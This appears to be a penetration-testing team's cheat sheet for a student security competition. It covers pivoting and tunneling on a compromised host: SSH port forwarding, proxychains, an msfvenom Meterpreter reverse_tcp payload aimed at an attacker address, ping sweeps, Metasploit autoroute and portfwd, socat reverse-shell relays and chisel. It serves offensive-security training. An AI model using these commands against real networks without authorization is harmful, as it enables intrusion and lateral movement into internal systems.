 
- Check for multiple NICs on compromised system, look for other networks to pivot to
- ipconfig, ifconfig, netstat -r, ip route etc
  ### SSH local port forwarding
  ![image](https://github.com/nationalcptc-teamtools/Coastline-College/assets/85032657/caddd47b-800d-4b8b-8a87-11344eabcd05)

  - use SSH to forward port on remote host to local port
    ```
    ssh -L <local port>:localhost:<remote port> <username>@<ip>
     ```
  - to check if forwarding is being done
    ```
    netstat -antp | grep <local port>
     ```
    ```
    nmap -v -p <local port> localhost
    ```
### SSH tunneling over SOCKS proxy
  #### proxychains
  ![image](https://github.com/nationalcptc-teamtools/Coastline-College/assets/85032657/952c6e3e-2842-440f-848c-b9c1c03e5756)

  - Use SSH dynamic port forwarding
  ```
    ssh -D 9050 <username>@<ip>
   ```
  -add to port 9050 type socksv4 to
```
  /etc/proxychains.conf
```
  - prefix command with proxychains, like proxychains nmap...etc
### Remote route forwarding with SSH
-used to create reverse connection, for reverse shells using a pivot host
  - create payload that opens reverse shell on internal nic of pivot host
  - transfer to target
  - on attacker box start ssh route forwarding
    ```
     ssh -R <pivot host internal ip>:<LPORT from payload>:0.0.0.0:<listener port on attacker machine> <username>@<ip>
    ```
  - start listener on <listener port on attacker machine>
  - run payload
### Meterpreter tunneling and port forwarding 
  - use instead of ssh port forwarding
  - create meterpreter payload to stage on pivot host
    ```
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
    ```
  - start exploit/multi/handler
  - transfer payload
  - conduct ping sweep
    ```
      for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
    ```
    ```
      for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
    ```
    ```
      1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
    ```
  -create socks proxy on msfconsole
  ``` use auxiliary/server/socks_proxy```
  - use jobs to confirm
  - add to proxychains
  ``` socks4 127.0.0.1 9050 ```
  - use autoroute to add routes to internal subnet (target subnet)
  ``` use post/multi/manage/autoroute ```
  - list active routes
  ``` run autoroute -p ```
  - check functionality with proxychains nmap as we did before
### port forward with msfconsole portfwd
  ```portfwd add -l <local port> -p <remote port> -r <pivot host>```
  - then we should be able to route to target subnet by specifying the -l port in forward connections
    ``` xfreerdp \u:<username> \p:<password> \v:localhost:<local port we specified above> ```
### Meterpreter reverse port forwarding
  ``` portfwd add -R -l <local port> -p <pivot host port> -L <pivot host>```
  - then create payload that opens reverse shell to pivot host on pivot host port this will send reverse connection to our local port
    
## tunneling with socat
 - forward all traffic from pivot host to attacker machine (bidirectional)
   ```socat TCP4-LISTEN:<pivot host port>,fork TCP4:<attacker ip>:<attacker listen port>```
-  create payload that connects to pivot host on pivot host port, it will be redirected to attacker listen port
-  create listener on that port and enjoy the shell
## using chisel 
- remember to look in older versions if you can't run on pivot host
- [download and go build https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
### forward connection
#### on pivot host
- ```chisel server -v -p <socks port> --socks5 ```
#### on local machine
- ```chisel client -v <pivot host ip>:<socks port> ```
- make sure to add socks5 entry to /etc/proxychains.conf
### reverse with chisel
#### on local host
- ```chisel server --reverse -v -p <socks port> --socks5```
#### on pivot host
- ``` chisel client -v <local host IP>:<socks port> R:socks```
### configuring burpsuite with proxychains
Network, Proxy works with burp browser
![image](https://github.com/cactus-dad/cptc-cheatsheet/assets/85032657/3969c9dd-360c-44b1-aa82-897a91850513)


